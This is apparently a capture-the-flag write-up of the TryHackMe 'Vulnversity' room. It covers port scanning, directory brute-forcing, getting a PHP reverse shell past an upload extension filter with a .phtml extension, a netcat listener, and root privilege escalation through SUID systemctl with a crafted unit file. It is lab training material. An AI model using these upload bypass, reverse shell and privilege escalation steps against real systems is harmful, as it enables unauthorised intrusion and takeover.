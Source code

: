 ```yaml
---
layout: post
title: "Vulnversity"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [dirsearch, file-upload, burpsuite, reverse-shell, SUID]
image: ../../assets/img/posts/vulnversity.png 

---
```


## Description

Learn about active recon, web app attacks and privilege escalation.

|**Room**|[Vulnversity](https://tryhackme.com/room/vulnversity)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Let's start with port scanning which can be done with nmap,

```bash
nmap -sV -sC 10.10.59.93 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/183449631-e9b8bd4a-d9f6-4ec1-84e8-306c77424d98.png)

We got several ports open but port 22 depicts that we can ssh into machine and port 3333 will take us to website. Let's enumerate port 3333.

Visiting http://10.10.59.93:3333,

![image](https://user-images.githubusercontent.com/67465230/183449708-f201459c-2066-4f44-944a-7b58a56359c0.png)

we can see the home page of the website. Let's do a bit enumeration but after sometime, I found nothing so I decided to brute force hidden directories using dirsearch,

```bash
python3 /home/kali/tools/dirsearch/dirsearch.py -u http://10.10.59.93:3333 -e txt,php -i 200,301 -o dirsearch.py
```

![image](https://user-images.githubusercontent.com/67465230/183449749-43cfeaf9-4828-4afa-ac49-a850ddacd631.png)

we got some directories and enumerating each one of them doesn't give us the fruit we want except **/internal** directory, which seems the fruit we want. Let's visit,

![image](https://user-images.githubusercontent.com/67465230/183449964-68620756-d9da-4d24-b039-8047715657c7.png)

Seems like this is a page where we can upload our files.

Let's start the burpsuite and enable the intercept mode so that when we submit the request, it intercepts the request and we can inspect it.

Let's browse the file we want to upload,

![image](https://user-images.githubusercontent.com/67465230/183450009-dd16b39f-72fe-4452-93b5-9bf74f3c8f1e.png)

and hitting Submit button will straightaway send the request to burp,

![image](https://user-images.githubusercontent.com/67465230/183450058-08da0c0d-525b-4b93-a28d-a387c2102ac9.png)

We can see that we've uploaded file.php file. Let's send this request to repeater to inspect it.

When we send this request with repeater,

![image](https://user-images.githubusercontent.com/67465230/183450127-0ffeaaef-a888-49d7-b59a-8c9d111c2af3.png)

we got response that "Extension not allowed", means that the file we've uploaded with .php extension is not allowed as webserver is filtering of blacklisting .php extension.

Now, that we know this website is filtering .php extension, that means we manually have to try all extensions one by one to check which extension is allowed. Hopefully, burp intruder can do this job (Automation!!).

Sending this request to intruder,

![image](https://user-images.githubusercontent.com/67465230/183450179-f3c98527-5666-4de7-b639-e89667db38b9.png)

We'll clear all mark and then select specific part which we have to fuzz in order to find correct extension and then add mark.

Let's create a payload list and uncheck the URL encode box so that when payloads are thrown at intruder's mark area, they won't get encoded,

![image](https://user-images.githubusercontent.com/67465230/183450237-2fe45cfd-2969-449a-b9c7-668bb6deb8ee.png)

Finally, let's start the attack,

![image](https://user-images.githubusercontent.com/67465230/183450293-f4a141c5-71d3-4e3a-a9d6-44ccd6188034.png)

and there we found a .phtml extension which has different length. Let's check it's response,

When sending this .phtml extension request,

![image](https://user-images.githubusercontent.com/67465230/183450343-a7f3d828-943d-4a69-a623-3ac68eaa4a7d.png)

we got render response which says "Success" means we can upload only .phtml extension files.

We'll download a php reverse shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php and then rename it with .phtml extension.

Now, let's edit our php reverse shell and replace IP with our tun0 IP and port to desired one,

![image](https://user-images.githubusercontent.com/67465230/183450395-d90366f5-63b7-4cfc-a62c-519a765e77c8.png)

save this and exit.

Now, Let's start the netcat listener using `nc -nvlp 4444` and now we'll upload our shell on website, when executed, netcat listening on port 4444 will catch connection and we'll be presented with shell.

Browse php shell and click on Submit button,

![image](https://user-images.githubusercontent.com/67465230/183450454-ccfe12b2-fd52-4793-9abb-c0e759b75765.png)

our shell is successfully uploaded but we didn't get a shell. Why? We don't get our shell because we haven't executed the uploaded shell from website. We have just uploaded it.

So, let's visit http://10.10.59.93:3333/internal/uploads

![image](https://user-images.githubusercontent.com/67465230/183450517-18364842-9888-4619-a81d-46b25382cb6c.png)

and clicking on the file we uploaded,

We'll get a shell.

![image](https://user-images.githubusercontent.com/67465230/183450572-6652fe50-ebc2-455c-af7b-f355366c5787.png)

But this shell is underprivilege, let's make it for friendly,

```bash
/bin/bash -i
```

![image](https://user-images.githubusercontent.com/67465230/183450626-6f47a998-3e31-4775-932f-d3afdedf25fd.png)

now this shell looks cool.

Let's navigate to /home directory for user flag,

![image](https://user-images.githubusercontent.com/67465230/183450664-bbbac3b2-6cb5-4e97-88d0-1d70f5386674.png)

there we found a user.txt file. 

Let's come the privilege escalation part. Now we need to look for the SUID Binaries.

SUID is a file permission which is added to/given to few of the binaries which are allowed to be run by the user, but they run under the name of their owner i.e. test.bin when having SUID permissions set on root when ran on under the "billy" account will be run under root.

```bash
find / -perm -04000 -type f -ls 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/183450722-1524249b-9699-4b5c-bac5-7a8b77a5822e.png)

we got a binary which has SUID bit set on it named as **/bin/systemctl**.

let's check the permissions of /bin/systemctl file,

```bash
ls -la /bin/systemctl
```

![image](https://user-images.githubusercontent.com/67465230/183450787-923fcbd9-4276-47f8-b953-630ef37bfeba.png)

**systemctl** is a binary that controls interfaces for init systems and service managers. Remember making your services run using the systemctl command during the boot time. All those tasks are handled as units and are defined in unit folders. By default systemctl will search these files in **/etc/system/systemd**.

For this machine we do not have access to the paths owned by root and by so we can't made the unit file. Although we can set **environment variables**. So let's do the PrivEsc.

```
Reference: https://gtfobins.github.io/gtfobins/systemctl/#suid
```

The first thing we need to is create an environment variable! 

```bash
TF=$(mktemp).service
```

![image](https://user-images.githubusercontent.com/67465230/183450878-117d6d0a-713c-4374-8592-d8d3d7b05fe7.png)

Now we need to create a unit file and assign this to the environment variable.

```bash
echo '[Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag"
> [Install]
> WantedBy=multi-user.target' > $TF
```

![image](https://user-images.githubusercontent.com/67465230/183450943-702704cc-2f7e-4916-bcd8-b0aade1d0f70.png)

What we have done here is to simply create a service which will be executing "BASH", then reading the flag from the root directory and then writing it in the flag (file) in /opt directory.

Now we need to run this unit file using systemctl.

```bash
/bin/systemctl link $TF
```

![image](https://user-images.githubusercontent.com/67465230/183451005-99b94e99-f8d9-435d-8afe-37ce2146f92e.png)

```bash
/bin/systemctl enable --now $TF
```

![image](https://user-images.githubusercontent.com/67465230/183451084-3bf68c94-5d14-44de-9fea-476f9aa2d5e2.png)

Now we can find the "flag" file in the / directory containing the flag! 

![image](https://user-images.githubusercontent.com/67465230/183451178-f3cd69d8-830c-4527-a2bb-65361cbffe16.png)

there we have our flag. 